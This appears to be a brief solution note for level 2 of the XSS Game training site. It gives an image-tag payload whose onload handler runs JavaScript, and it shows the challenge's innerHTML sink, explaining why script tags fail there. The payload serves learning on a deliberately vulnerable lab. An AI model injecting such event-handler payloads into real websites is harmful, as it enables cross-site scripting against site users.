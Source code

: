 ## Level 2

Payload:

```html
<img src="https://xss-game.appspot.com/static/level2_icon.png" onload="alert(0)">
```

"sanitation" happends in `index.html` line 32:

```javascript
containerEl.innerHTML += html;
```

**Using innerHTML will NOT allow rendering of script tags!!**